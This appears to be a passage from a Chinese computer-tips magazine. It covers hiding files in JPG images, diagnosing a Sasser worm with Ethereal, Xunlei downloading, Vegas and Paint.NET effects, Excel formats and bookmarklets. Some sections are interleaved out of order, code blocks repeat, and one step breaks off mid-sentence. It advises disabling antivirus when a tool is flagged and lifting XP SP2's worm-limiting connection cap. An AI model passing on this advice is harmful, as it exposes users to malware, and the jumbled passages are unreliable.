-   第三步：在这个步骤中，我们可以对 JPG 文件中的音频在 IE 浏览器中的播放方式进行设置，AudioJPEG 提供了三种播放方式，选择“Display……”方式时，在 IE 中打开 JPG 图片即自动播放声音；选择“Mouseover……”方式时，把鼠标移动到图片上就会自动播放声音；而选择“Click……”方式时，只有在图片上点击鼠标时，它才会开始播放声音。

-   第四步：点击“Save this AudioJPEG”按钮，将制作的情歌 JPG 文件保存到硬盘上，然后通过 QQ 或者邮件发送给 MM 即可。对了，别忘了把 AudioJPEG 安装程序也一并发过去哦，接下来你就等 MM 的约会电话吧。

### 会送情书的 JPG

想给 MM 写封情书，又怕被别人随便看到，怎么办呢？这里给大家出个好主意，把情书藏到 JPG 图片里！下面将要介绍的“绣身文件生成器”可以把任何文件隐藏到 JPG 图片文件中，制作好的 JPG 文件与正常图片没有任何区别，可以在任何图片浏览器中观看，MM 收到你的图片后，不需要任何辅助工具，只需要使用最常用的 WinRAR 打开，即可看到其中的情书了，别人绝想不到里面还藏有情书！

绣身文件生成器小档案
软件版本: 1.1
软件大小: 405KB
软件性质: 免费软件
适用平台: Windows 9x/2000/XP
下载地址: http://www.onlinedown.net/soft/41596.htm
对于一些杀毒软件可能会将软件识别为病毒，遇到这种情况，只要关闭杀毒软件就可以使用了。

-   ①把情书藏到图片里
运行绣身文件生成器，单击“增加”按钮，选择一个合适的 JPG、BMP 或 GIF 图片文件，为了避免出错，软件要求图片文件体积要小于 200KB。然后单击工具栏中的“添加”按钮，选择写给 MM 的情书文件，添加后可以在界面右下部分看到文件列表，在“压缩方式”下拉框中可以选择文件压缩方式，以减少生成的文件体积，为了安全起见，还可以输入“查看密码”，“输出选项”中可以设置输出的 JPG 文件路径和名称。最后单击“生成文件”按钮即可制作出一张内藏情书的 JPG 图片了。

-   ②情书如何看
MM 在收到 JPG 图片后，将其扩展名由 JPG 更改为 RAR，就可以用 WinRAR 打开了。
怎么样？别人怎么也不会想到，这张普通的 JPG 图片里面竟然隐藏了这么大的秘密！哈哈，现在把情书摆到桌面上别人也看不到啦。

## 嗅探软件也能“消警”

最近有老师反映机房的网络工作不正常。在上课时，网络常常突然无法连通，过一阵又会自己恢复，非常不稳定。而这样的问题已经出现过多次。为找出问题根源，我们特意在上课时将一台安装了免费的嗅探软件 Ethereal（下载地址 http://nj.onlinedown.net/soft/3906.htm）的笔记本电脑连接到机房的交换机上。

先 Ping 了网关，结果显示超时，故障又出现了，于是我开始用 Ethereal 解决问题。

启动 Ethereal，选择菜单中的“Capture → Interfaces”（捕获→连接），打开“Capture Interfaces”窗口，然后，点击网卡后面的“Capture”按钮，开始捕获。不一会儿就会弹出 Capture from XXX（XXX 为笔记本电脑网卡名称）窗口，其中动态显示了各种常见协议（如 TCP、UDP 等）流量占总流量的百分比。其中 ARP 协议流量占总流量的比例超过 90%，这显然不正常。ARP 协议是“Address Resolution Protocol”（地址解析协议）的缩写，在一般情况下，不会出现一台电脑不停发送 ARP 数据包的现象。单击 Capture from XXX（XXX 为笔记本电脑网卡名称）窗口的停止按钮后 Ethereal 会给出其捕获的数据包详细列表，很容易我们就找到了是地址为 10.45.12.* 的电脑一直在往外发送数据包。找到该电脑（操作系统为 Windows 2000）后，双击本地连接打开状态窗口可以看到该机器发送数据包的数量一直在增长，而接收数据包的数量则保持不变。在命令提示符窗口中使用 netstat –an > C:\\info.txt 命令将网络连接信息写入到 C 盘 info.txt 文件中，打开后发现有一系列源地址是本机，目标地址则五花八门地使用 445 端口的数据连接请求。

C:\\info.txt 文件中的部分内容如下所示:
Proto Local Address Foreign Address State
......
TCP 10.45.12.*:2768 10.45.31.*:445 SYN_SENT
TCP 10.45.12.*:2769 197.33.13.*:445 SYN_SENT
其中状态 SYN_SENT 表示该连接请求发出后等待匹配。

而我们知道，震荡波（Worm.Sasser）病毒会产生随机网络地址，然后尝试连接这些地址的 TCP 445 端口并发动攻击程序。这样会造成网络上充斥了大量无用的数据包，正常的数据包出不去也进不来，从而造成网络堵塞。因此判断这台机器是中了此病毒。打开“任务管理器”查看进程果然发现一个名为 avserve2 的进程，它是震荡波变种 B（Worm_Sasser.B）的进程文件。接下来的操作就非常简单而且程式化，将其离线后使用震荡波专杀工具杀毒，再连到网上打好系统补丁。到此为止网络恢复正常。

## 给朋友发一封“魔法信”

现在很多人通过 E-mail 与客户或朋友进行交流，但大部分 E-mail 大同小异，没有什么新意。今天笔者给大家介绍一种自助式魔法信，通过它可以给朋友发送有趣的 E-mail。

首先登录 http://cards.163.com/mfx，进入魔法信漂亮的制作界面，看起来比较像一个卡通画板。魔法信的界面主要由画布、上侧面菜单栏，右方工具栏和下方的提示栏四部分组成。并且魔法信可使用大量现成的图库元素，即使是第一次用，也可以轻松做出一张漂亮的魔法信，寄给你的朋友。

魔法信右边的工具栏，从上到下依次为：画线条的彩笔工具、画曲线的钢笔工具、画直线和多边形的直尺工具、用笔刷喷图案的毛笔工具、画圆形的椭圆工具、画方形的多边形工具、文字工具、细节修改工具。可以利用这些工具来写出文字，当每选中一样工具时，下方提示栏就会显示相应的提示，提示每一样工具的使用方法。而且还能对笔刷的颜色、大小和样式进行修改，此外还能对图像的位置进行调整，要是不满意的话，还可以直接进行删除。而在工具栏下面的四个按钮分别是：魔棒、图库、背景、边框，这里就不多给大家介绍了，感兴趣的朋友可以自己研究一下，非常简单。

当魔法信都画完后，可点击上侧的预览按钮，或直接按回车，就会对魔法信进行预览。也就是用 Flash 将刚才写信的过程用动画的形式进行播放。当觉得没有问题后，就可以点击发邮件按钮来将制作的魔法信发送给朋友。要输入自己的姓名和邮箱，还要输入朋友的姓名和邮箱，最后点击“发送”按钮就可以将魔法信发送到朋友的邮箱当中。这里要说明一点的是，收件人如果是网易邮箱的话，对方马上就会收到魔法信。如果对方是其他的邮箱，会有一定时间的延时。

这样，只要朋友查看邮箱，就能看到发送的魔法信。是不是觉得很有意思，那你还等什么，赶快去给自己的好朋友发送一封魔法信吧，相信对方一定会很喜欢。

（河南省正阳县 徐海斌）

（二手三好街）

## “迅雷”不及掩耳，看我极速下载

“下载”是上网一族永远也说不完的话题，在“菜鸟集训营”中，我们也前后介绍了传统下载软件 FlashGet、P2P 下载软件比特精灵、电驴等。但是今天要推荐给大家的这款下载软件——迅雷，却有些特别之处：它集传统下载与 P2P 下载功能于一身，取长补短，既能找到稳定的下载源，又能大大提高下载速度，绝对是你网海淘金的好工具。

### 实例1：大软件轻松搬回家

老周最近迷上了 DV 摄像，他看到《电脑爱好者》第18期上介绍的视频编辑软件 Vegas 不错，还提供有下载链接，便决定下载一个回来试试。但 Vegas 的安装文件太大了，于是他决定使用朋友极力推荐的下载软件“迅雷”来啃啃这块“大骨头”。

-   第一步：首先到 http://www.xunlei.com/ 下载迅雷，安装后第一次运行迅雷，先执行“工具→配置”命令打开配置窗口，点选“类别/目录”项，再在右侧将“默认目录”由原来的“C:\\TDDownload\\”改成其他目录，如改成“D:\\TDDownload\\”，单击“应用”使设置生效，确定后返回。这一步是避免下载文件都保存在系统分区，影响系统的运行，以后就不用再设置了。

-   第二步：启动 IE，按照杂志上所给的网址找到 Vegas 的下载链接（当然，你完全可以用其他的文件下载链接来试验），右击它，从右键菜单中选择“使用迅雷下载”，弹出一个新建任务窗口，其中下载网址、保存路径及文件名等信息已经自动填好了，单击“更多选项”按钮展开这个窗口，可以看到更多选项（见图1）。本例全部取默认值，直接单击“确定”按钮就开始下载了。



-   第三步：老周从迅雷主界面右下角的“即时速度”中看到，显示出的下载速度比其他下载软件多出了好几倍。单击展开下载任务，发现其下的“连接资源”，居然有好几个连接 IP 地址（见图2）。原来迅雷使用了 P2P 技术，能从多个服务器获取同一文件的数据，难怪它要比一般的下载软件快很多呢。



### 实例2：MP3歌曲一网打尽

有一次，老周在某个论坛上发现有《乙未传奇》这部老电视剧的所有插曲的 MP3 链接，每个链接都要点击一下才能让迅雷下载，这也太麻烦了。于是他仔细研究了一下，发现通过迅雷的筛选功能，就能一次添加多个下载链接。

-   第一步：打开包含有多个 MP3 歌曲链接的页面，在页面空白处右击，选择“用迅雷下载全部链接”，出现“选择要下载的 URL”对话框（见图3）。



-   第二步：点击“筛选”按钮，在“文件扩展名”一栏选中“.mp3”（选项前打钩），并取消对其他类型的选择，然后点击“确定”按钮（见图4）。



-   第三步：在“选择要下载的 URL”对话框中点击“确定”按钮，下载所有 MP3 的工作就可以交给迅雷了。坐下来喝杯茶，一会儿就能听歌了。

### 实例3：批量下载电子图书

老周在网上找到了《红楼梦》的电子小说，但非常不幸的是，小说是以网页的形式提供给大家的，每章都是 index018.htm 之类的格式。相信大家都会有过类似的经历。那么在迅雷中就没有什么好办法下载这类东西了吗？老周分析了一下，发现所有的章节格式都是 http://www.xxx.com/index***.htm，也就是说，下载链接非常相似，只有很少一部分不同，对于这种格式的文件，迅雷提供了批量下载的功能。

-   第一步：在迅雷中点击菜单“文件→新建批量任务”，打开“新建批量任务”窗口（见图5）。



-   第二步：在 URL 中输入 “http://www.xxx.com/index(*).htm”（不同的部分用括号括起来，中间加星号），然后在下面把从 X 到 X 设置为 1 到 120（红楼梦有 120 章），把通配符长度设置为 3。

### 老鸟支招：

-   1. 从士兵到将军，获得更多资源
迅雷能从多个服务器同时下载同一个文件，这些镜像文件资源数量的获取与用户等级有关，等级越高能连接的资源就越多，从而下载速度也就越快。要获得高等级，必须注册为迅雷用户。
第一步：在迅雷主界面左侧点击“您尚未注册或登录”，弹出登录窗口。
第二步：点击“注册账号”按钮，根据提示注册成为迅雷用户。
第三步：在用户登录窗口中输入注册的用户名和密码登录迅雷。
用户的等级与用户的在线时间和下载数量有关，在线时间越长、下载的数量越多，获取的积分也就越高，等级一高，能获取的资源就多，下载速度也就更快了。

-   2. 为迅雷提速
Windows XP SP2 中，对总 TCP 连接数有个限制，最大不能超过 10，这虽然能有效防止蠕虫病毒在网络中快速扩散，但也限制了很多网络软件的运行，对迅雷来说就是直接影响下载速度。我们在介绍比特精灵时，提到它里面带有一个工具可以改变 Windows XP SP2 的连接数限制，其实在迅雷 5 中，也已有了办法：
启动迅雷 5 后，点击菜单“工具→XP SP2 连接数修改工具”，如图 6 所示，在“当前连接数”中输入适当的值（建议为 256），然后点击“修改连接数”按钮，重启电脑后即可修改生效。以后迅雷下载就不会受 Windows 连接数的限制了，从而能够提高下载速度。



修改最大 TCP 连接数后，不仅迅雷受益，BT、电驴等下载工具也能提高下载速度。同时，还可以解决下载文件时无法打开网页的现象。

### 实例4：曲径通幽探索 FTP 站点

经常下载的人，手里都有一些 FTP 服务器的账号。大家一般都用专门的 FTP 软件下载，比如 Cute FTP 等，但那些软件的功能实在太复杂，菜鸟上手比较困难。迅雷考虑到了这个问题，因此它自备了一个简单的 FTP 下载工具，即资源探测器，相对而言简便好用。下面看看老周是如何用迅雷的资源探测器下载新帆 FTP 服务器上的资料的。

-   第一步：在迅雷中点击菜单“工具→资源探测器”菜单命令（或直接按 F7 键），启动资源探测器（见图7）。



-   第二步：在地址栏中输入 FTP 站点名称“ftp2.newsfan.net”，然后在后面输入自己的用户名和密码（大家可以到 http://web.newsfan.net/ 上注册后，获取 FTP 服务器的账号和密码），按下回车键就会连接到 FTP 服务器上。
-   第三步：资源探测器左侧是站点的根目录，右侧上方是每个目录中的详细内容，右下方是登录 FTP 时的提示信息。找到自己需要的文件后，右击选择“下载”命令，就会把文件下载到先前设定的目录中。

## 一路的“导演”之路——Vegas影视特效实录

### 实例1：给电影加一个专业的“尾巴”

实现效果：几乎每部影片都少不了片尾，不少影视片尾部分是一半显示影片，一半显示滚动字幕，而且两部分不是简单地平行播放，而是具有一定倾斜角度，非常有立体感（见图1）。



第一步：启动 Vegas 6.0，按快捷键 Ctrl+Shift+Q 插入两个视频轨道，再按快捷键 Ctrl+Q 插入一个音频轨道。在音频轨道中放置片尾曲，在其中的一个视频轨中放置用来作为片尾的视频文件，这里要让片尾曲和片尾视频的长度一样。

第二步：切换到素材综合区的“视频特效”选项卡，将 Deform（变形）特效拖放到片尾视频上，在弹出对话框中选择“预置”下的“水平压缩”，将“数量”设置为 0.500，在“挤压”项下，除“左边”设置为 0 外，其他都设置为 1；此时会看到片尾视频已经变形，但位置还在屏幕的中间。单击视频轨道上的“轨道运动”按钮，在出现的对话框中拖动右侧圆形中的圆点，可随意调整视频在屏幕上的位置，这里将它移到屏幕左侧。勾选下方的“2D 阴影”和“2D 发光”，可以在视频的周围添加上阴影及发光效果。

第三步：切换到素材综合区的“媒体发生器”选项卡，点选“滚动字幕”项，将右侧“滚动，透明背景”模板拖放到另外一个视频轨道上，此时会弹出一个对话框。如图 2 所示，按住字幕文字前的标记按钮，从弹出的三个子按钮中选择中间的那个，设置为单排字幕类型，然后双击输入框中的文字将其修改成所需要的文字。以同样方法修改添加其他行的字幕文字。

第四步：拖动“位置”下的两个方块可以调节字幕在屏幕中的位置，这里将它移到屏幕的右侧。在此对话框中，还可为字幕文字设置其他属性。至此，一个专业级别的片尾就制作完成了。

**小提示**
在迅雷进行FTP下载时，有两点需要注意一下。
1.  很多FTP服务器都有下载线程限制，在添加迅雷任务时，需要把“原始地址下载线程数”设置为1，或者选中“原始地址使用单线程”。
2.  迅雷的资源探测器默认使用PASV模式登录FTP服务器。如果服务器仅支持Port模式，需要点击资源探测器的菜单“操作→设置”，取消“PASV”前面的勾。

### 实例5：让遨游也来支持迅雷

和许多人一样，老周不喜欢 IE，平时总是喜欢用遨游（即 Maxthon）上网浏览。但老周发现，在遨游中不能像在 IE 中那样一点下载链接就打开迅雷进行下载，这让老周很不爽。不过，在同事指点下，老周终于驯服遨游，让它也全面支持迅雷了。

第一步：在遨游安装目录下的 config 目录下找到 downloadmgr.ini，用记事本打开，在尾部输入以下内容：
```
[Thunder]
script=<script language="vbscript">
On Error Resume Next
Set ThunderApi = CreateObject("xunleibho.CatchRightClick.1")
If err<>0 Then
  external.put_string("fail")
Else
  info="#01#" + "%download_url" + "#02#" + document.Url + "#03#" + "%download_info" + "#04#thunder_backwnd#05#"
  nr=ThunderApi.SendUrl(info)
End If
</script>
```
第二步：重启遨游，点击菜单“选项→Maxthon 选项”，打开选项窗口。
第三步：在左侧选中“下载”，然后将右侧“选择下载工具”选定为 Thunder，接着点击“确定”按钮。同时在下方设置监视的文件类型。以后，在遨游中只要点击一下下载链接，如果文件类型相符，即可直接调用迅雷进行下载了。

```
[Thunder]
script=<script language="vbscript">
On Error Resume Next
Set ThunderApi = CreateObject("xunleibho.CatchRightClick.1")
If err<>0 Then
  external.put_string("fail")
Else
  info="#01#" + "%download_url" + "#02#" + document.Url + "#03#" + "%download_info" + "#04#thunder_backwnd#05#"
  nr=ThunderApi.SendUrl(info)
End If
</script>
```

### 实例2：不许侵权！给影片打上自己的标记

实现效果：假期外出游玩，用 DV 拍摄了不少名胜古迹，于是借助于网络跟朋友分享自己的快乐。但看到自己的一些作品被别人滥用，有些甚至打上了别人的标记，心里甚是不爽，此时何不为影片打上自己的标记呢。



第一步：在视频轨道上加入自拍的影片，然后插入一个新视频轨道，在该轨道上插入一个文本剪辑（也可以是图片或视频），文本内容为标记文字（如：剑锋游深圳）。
第二步：调整好文本剪辑的大小及位置，并将其拉长以与自拍的影片长度相同。单击新轨道上的“合成模式”按钮选择“源 Alpha（P）”，再拖动左侧合成度按钮，将文字变淡。这样，我们就给影片加上自己的标记了。

### 哎呀呀，我的迅雷没“声”了

#### 1. 解决99.9%问题
老周发现迅雷有个毛病，有些东西下载到99.9%时就停了，说什么也不再动。于是赶紧向小林请教。下面是小林给出的解释：
迅雷采用多线程下载，也就是在下载文件时，会创建多个下载线程，分别下载文件的某一段。但受到网络因素的制约，这些线程中有可能会中途断线，系统就会创建另一个线程。受到下载软件算法的限制，新创建的线程创建的下载位置与老线程的结束位置之间会存在着一定的距离（见图），所以到最后，会留下一小块谁都不管的空白，这就形成了99.%的问题，所有的多线程下载工具都可能有这样的毛病。其实解决起来很简单——停止下载，再重新开始，让下载软件重新创建一个线程，把没有下载的数据下载过来就可以了。



#### 2. 迅雷在浏览器右键菜单中丢失或失效

第一步：点击“开始→运行”，在运行对话框中输入“regedit”后按回车键启动注册表编辑器，找到[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt]，点“MenuExt”左边的“+”号展开子项，可以看到很多都是 IE 右键菜单里的内容。
第二步：展开后看看有没有“迅雷下载链接”、“迅雷下载全部链接”项。如果有，则双击“迅雷下载链接”，再双击“默认”，输入你的迅雷路径再加上 geturl.htm，比如：C:\Program Files\Thunder Network\Thunder\geturl.htm。双击“contexts”，点击“十进制”，输入“34”。“迅雷下载全部链接”项的设置与之基本相同，只是把“geturl.htm”改成“getallurl.htm”，并且“contexts”的“十进制”值输入“243”。
第三步：如果展开后没有“迅雷下载链接”等，可在“MenuExt”上点击右键选择“新建→项”，输入“迅雷下载链接”，双击右边窗口的“默认”，输入你的迅雷路径加上 geturl.htm，并且在右边窗口右击选择“新建→Dword 值”，输入“contexts”，双击这个“contexts”，点“十进制”后输入“34”。对于“迅雷下载全部链接”和上面基本相同，只是“默认”输入你的迅雷路径 + getallurl.htm，“contexts”的“十进制”值输入“243”。

### 实例3：虚幻人生，人在画中游

实现效果：在一些大片中，我们常常会看到人物在天空中飞行，或置身于一种不可思议的环境中，这种效果一般都是将前景（人物）和背景（天空）分别拍摄制作，然后再合成得到的。人物的拍摄，一般在纯蓝色背景下完成。

第一步：插入两个新视频轨道，然后将背景影片拖到下面轨道上，将前景影片（蓝色背景的人物视频）拖到上面轨道。
第二步：切换到“视频特效”选项卡，将 Chroma Keyer（色度键）拖放到前景影片上，选择对话框中“预置”下的“蓝屏”，在预览中可以看到蓝色背景已没有了，此时播放影片会看到前景人物和背景已经完全融合在一起。如果背景还有残余，可试着调整对话框中的其他选项。

**小提示**
如果要将一幅带有背景的图片作为前景，再与动态的背景进行融合，还可以使用“事件平移/裁切”中的遮罩功能，借助贝兹曲线选出保留的部分。将图片拖放到上方的视频轨道上，然后单击“事件平移/裁切”按钮，在弹出的对话框中选择下方的“遮罩”项，再使用“锚定生成工具”将保留部分锚出来（见图 3）。注意：锚定区域一定要是封闭的，否则不能制作出遮罩。此时播放影片会看到只有选中区域被保留下来，从而达到屏蔽背景的目的。



动眼绝对不如动手，电脑应用操作更是如此，感兴趣的朋友不妨亲自做做看。
（江苏 许小勇 周建峰）

## 偷窥下一代的Windows‘画笔’

Windows自带的‘画笔’软件，虽然小巧，但功能实在有限，甚至无法完成稍微复杂一些的任务。今天笔者要介绍的这款免费软件——Paint.NET，它像‘画笔’一样小巧(只有1MB多点)，功能却非常强大，某些地方甚至可与Photoshop相媲美。据说，该软件的作者现在供职于微软，那么未来会不会以该软件替代Windows现在的‘画笔’呢？难免给人留下联想的空间。

注：本文实例素材，可在http://www.newhua.com/cfan/200523/paint.rar处下载。

- Paint.NET小档案
- 软件版本：2.5 Beta 5
- 软件大小：1225 KB
- 软件授权：免费软件
- 适用平台：Windows XP/2003
- 下载地址：http://nj.onlinedown.net/soft/39381.htm
- 软件备注：Windows XP需打过SP1或SP2补丁，另外还需要微软.NET Framework 1.1框架支持(http://go.microsoft.com/fwlink/?LinkId=17153)

### 实例1：飞驰的汽车

本例通过Paint.NET的动态模糊滤镜制作出汽车上光线的拖影效果，从而表现出汽车高速运动的状态。



第一步：启动Paint.NET，执行‘File(文件)→Open(打开)’菜单命令(快捷键为Ctrl + O)，然后打开一张汽车照片。如图1所示，可以看到汽车的周围环境处于一种较为模糊的状态，但汽车本身却没有这种效果，所以表现不出高速行驶的效果。下面就来对汽车进行动态模糊处理。

第二步：单击Layers(图层)面板下方的Duplicate Layer(复制层)按钮复制出一个新的背景图层。接着单击图层面板右下方的Properties(属性)按钮，打开层属性对话框，将其中的Mode(模式)更改为Additive(附加)，并设置Opacity(透明度)参数值为180(见图2)。



第三步：接下来执行‘Effects(效果)→Blurs(模糊)→Motion Blur(运动模糊)’菜单命令，打开运动模糊对话框。首先调节一下Angle(角度)参数值，使运动模糊的方向与汽车行驶的方向一致。接着再调整Distance(距离)参数值，设置好动态模糊的大小。这时从工作区中也可以实时预览到图像的变化，设置完毕，单击‘OK’按钮返回。

第四步：执行‘Image(图像)→Flatten(合并图层)’菜单命令，合并图层后执行‘File→Save’命令保存图像即可，图3所示是本例最终效果，比较图1，应该看到不小变化吧：在汽车的前后两端出现光亮的虚影并呈现出一种模糊状态，这样就更好地衬托出汽车的高速运动状态了。



### Just Do It

层和滤镜是Photoshop的两大特色，而Paint.NET也实现了这两点，虽然还比不上Photoshop的专业，但比Windows‘画笔’强上百倍了。Paint.NET中的Effects菜单，其实就相当于Photoshop的滤镜菜单，在这里Paint.NET提供了十多种滤镜特效。其中还有一个Red Eye Removal(去红眼)滤镜，通过它可以有效处理数码照片中常见的‘红眼’现象。首先使用工具箱中的Ellipse Select(椭圆选取)工具将红眼部分选取出来，然后执行‘Effects→Red Eye Removal’菜单命令，在打开的去红眼对话框中进行调整即可，大家可以自己试一试。

### 实例2：花中美女

图层属于图像处理中的高级功能，通过它可以轻松制作出许多特效。本例借助于Paint.NET的图层，制作出花中美女的效果。



第一步：启动Paint.NET，按快捷键Ctrl + O打开一张背景为白色的人物照片(见图4)，然后单击工具箱中的Magic Wand(魔棒)工具，用它点击一下照片的白色背景，将白色背景全部选中。接下来再执行‘Edit(编辑)→Invert Selection(反选)’命令(快捷键为Ctrl + I)，反过来将人物选中，并按快捷键Ctrl + C将选取的人物复制到剪贴板中备用。

第二步：再次按Ctrl + O键，将询问你是否保存刚才打开的图像，选择‘否’，然后在打开对话框中选中一个花卉图片(本例为荷花图)，将其打开。接着在图层面板下方单击Add New Layer(增加新图层)按钮创建一个新的图层——Layer2，按快捷键Ctrl + V将刚才复制的人物粘贴到Layer2中，并调整好位置，如图5所示，然后按快捷键Ctrl + D取消选区。

第三步：执行‘Layers→Rotate/Zoom(旋转/缩放)’命令，在打开对话框中可以对人物进行旋转、缩放操作。在‘Roll/Rotate’区域中

第四步：在图层面板上双击Layer2，打开图层属性对话框，将Mode更改为Darken(变暗)，这时观察工作区中图像的变化，可以看到荷花以外黑色区域中的人物部分消失了，只有荷花上的人物还保留不变，慢慢降低透明度(Opacity)，则人物渐渐变淡，若隐若现于荷花之上(见图6)。







**小编有话：** 作为Windows‘画笔’的替代品，Paint.NET无论从界面上还是基本功能使用上都有了质的提升，它提供的许多工具及功能都是‘画笔’所不具备的，大大方便了对图像的处理。它小巧玲珑、功能强大，足以应付一般性的图像处理需求，这样不用动不动就启动Photoshop之类的‘庞然大物’了。(吉林 图们月圆)

## 数字自定义 Excel更好用

设置Excel单元格数值格式时，一般人往往忽略了其中的‘自定义’项。其实，用好这个‘自定义’，会给工作带来很大方便。

### 实例：长数字不再‘走样’

在Excel中输入数字若超过11位，会自动以科学记数法来表示，有时这不是我们所希望的，比如输入身份证号、学籍号等。这种情况，就可以通过自定义来解决问题了。

第一步：右击想要自定义数字格式的单元格，选择‘设置单元格格式’命令打开单元格格式对话框，单击‘数字’选项卡，在左侧分类列表框中选择‘自定义’，在右侧类型列表框中选择‘0’。

第二步：确定后返回工作表，在刚才设置了自定义格式的单元格中再输入长数字，会发现它不再自动变成科学记数了。

第三步：假设要输入的是14位学籍号，除后四位不同外前面的数字都相同(如：02230503410000，02230503410001...)，则在第二步中，在类型输入框中输入02230503410000(后四位为0)，确定后返回。此时在设置了自定义格式的单元格中输入1，它会自动转换为02230503410001，非常方便。

## 彰显个性，从‘名’做起

制作一个非常酷的Logo，可以彰显网站（以及博客、论坛等）的个性，也能起到很好的广告宣传作用，让访问者对你留下深刻印象。但对我们这些没有美学基础的人，如何制作出漂亮的Logo是件令人头痛的事。好在网上有不少免费的Logo制作资源，大家不妨学学‘拿来主义’。

### 实例1：制作Logo就像玩填字游戏

利用网上的模板资源，只需随手改改文字，就能制作出美轮美奂的Logo图片来。
第一步：打开网页http://www.templatesbox.com/free-logo-templates/，这里提供了多个免费的Logo模板，单击自己想要的某个模板进入它的预览页面，接着再单击Download按钮进入下载页面。点击下载页面上的‘Click here to download Logo Template’(点击这里下载Logo模板)链接，将该模板下载到本地硬盘上。
第二步：解压下载所得文件包后，会发现它带有PSD模板文件及相关的字体文件。在Photoshop CS中打开PSD文件，使用文字工具（快捷键为T）将网站名称替换成自己想要的文字即可，当然也可以做适当修改(见图1)。

**小提示**
PSD是Photoshop专有的图像格式，它完全保留了图像中的图层、通道等信息，修改起来非常方便。另外，上例的网页中还有不少免费的网站模板，有兴趣的朋友可以多找找看。



### 实例2：超酷网名，超酷效果

网站Logo一般会对构成网站名称的文字进行美学处理，从而达到独特的视觉效果。下面网页提供的在线特效文字制作，也许会对你有所帮助。
第一步：登录http://cooltext.com/Default.aspx，在这个页面中会看到许多文字效果图片，点击你想要的效果，本例选择的是Cutout (挖剪图)，进入特效字制作页面。
第二步：如图2所示，在Logo Text(Logo文本)框中输入网站名称(本例输入的是：‘CFan.com.cn’)，单击Font(字体)右侧的样图选择字体，再根据需要设置Foreground Color(前景色)、Background Color(背景色)及File Format (文件格式)，然后单击Render Image(渲染图像)按钮。
第三步：稍等片刻，页面更新后就可以看到你想要的Logo文字了。此时即可以右击图像，选择‘图片另存为’命令保存。
除了生成特效文字Logo外，这个网站还提供在线制作按钮、纹理等服务，操作简单，效果也不错，有兴趣的朋友可以试试。

**小提示**
还有哪些Logo制作网站可以用
★ http://www.bannerbreak.com/，在线Logo制作服务，操作方法与上例相似，不过还有许多背景图像可选，也非常不错。
★ http://www.logogle.com/，在线制作一个Google风格的Logo。
★ http://logo54.com/net/yahoo/，在线制作Yahoo!风格的Logo。



## 巧用微型书签，打造超强网页浏览器

**芝麻开门**
什么是微型书签？
Bookmarklet在汉语中尚没有对应的词汇，因为后缀let表示‘小的’意思，所以本文暂且将它译作‘微型书签’。微型书签实际是一些很小的、可以重复使用的Javascript代码，它既可以嵌入网页中的链接里，又能像网址一样保存在网页浏览器的收藏夹中作为书签使用，能大大增强浏览器功能。比如网页设计师经常要在固定大小的窗口(如800×600)中测试设计好的网页，只要在浏览器地址栏中输入：‘javascript:resizeTo(800,600)’(不含引号)，按回车键后即可将浏览器窗口设置成800×600的大小。如果将这行代码设置为微型书签，则在浏览网页时，只需一次点击，就能随时调用这一功能。
微型书签虽不是什么新技术，但它可通用于Windows、Mac、Unix三大平台，支持IE、Mozilla、Firefox、Opera等多种浏览器，代码简单又实用，所以长盛不衰。当前非常流行的一些网络应用，比如本刊第20期上介绍的美味书签(即del.icio.us)，它的一键保存书签功能就是通过微型书签来实现的。
微型书签支持大部分Javascript语法，可以输入多个语句，不过各语句之间必须用英文分号(;)分开，并且所有语句必须在同一行中，不能有回行。

### 实例1：一键实现外语网页变中文

网上的资源虽然很丰富，但是因为语言的障碍，像英、法、德、意、日、韩等语言的网页内容，一般人就看不懂了。本微型书签，可让你点击一次即可将外语网页翻译成中文。

**小提示**
本文涉及的所有源代码可从http://www.newhua.com/cfan/200523/bookmarklet.rar处下载。不用担心代码太长，因为无需手工输入，直接拖拽即可使用它们。本例则简单介绍了一下手工添加微型书签的方法，这对想创建自己的书签，或者使用的浏览器不支持直接拖拽功能的朋友来说，会有所帮助的。
第一步：本例以IE为例进行说明，使用其他浏览器的朋友可以借鉴。启动IE后，执行‘收藏→添加到收藏夹’菜单命令，在打开的对话框中点选‘链接’，单击‘确定’后即可将当前页(可能是空页，即‘about:blank’，也可能是默认的主页，都无所谓)添加到收藏夹中了(见图1)。
第二步：点击菜单‘收藏→链接’，在展开的子菜单中，右击上一步中添加的书签(本例为‘about:blank’)，在右键菜单中选择‘属性’，打开属性对话框，如图2所示，在URL框中输入以下代码：
```
javascript:location.href='http://www.worldlingo.com/wl/mstranslate/UP26384/T1/P2/zh_cn/microsoft/computer_translation.html?wl_src_lang=EN&wl_trglang=ZH_CN&wl_url='+escape(location.href);
```



```
javascript:location.href='http://www.worldlingo.com/wl/mstranslate/UP26384/T1/P2/zh_cn/microsoft/computer_translation.html?wl_src_lang=EN&wl_trglang=ZH_CN&wl_url='+escape(location.href);
```



### 实例2：举一反三搜罗无尽网络服务

微型书签的一个比较普遍的用法就是调用网上的各种服务，实例1就是一个典型的应用。授人以鱼不如授人以渔，下面以获取金山词霸在线词语翻译为例，介绍一下如何获得网上服务的Javascript语法。
第一步：登录http://cb.kingsoft.com/，在搜索框中输入‘翻译’一词，单击‘搜索’按钮即可通过金山词霸在线词典查出‘翻译’一词的英文含义。此时浏览器地址栏中变成了：`http://cb.kingsoft.com/search?s=%E7%BF%BB%E8%AF%91&t=word&lang=utf-8`。再试着搜索其他几个词，会发现前面部分`http://cb.kingsoft.com/search?s=`总是不变的，而等号后面变化的部分，则变成了UTF-8编码的搜索关键词，我们可以直接使用关键词替代等号后面的部分再试试，会得到同样的搜索结果。

第二步：观察实例1中的两段代码，会发现关键语句是：location.href='http://...'和location='http://...'，这两个语句的功能其实差不多，都是打开指定地址的网页。现在要做的就是将单引号内的链接地址替换成金山词霸在线版的搜索地址：javascript：location='http://cb.kingsoft.com/search?s=翻译'。将该行代码复制到浏览器的地址栏中，按回车键测试一下，果然得到了同样的搜索结果。

```
javascript：location='http://cb.kingsoft.com/search?s=翻译'
```

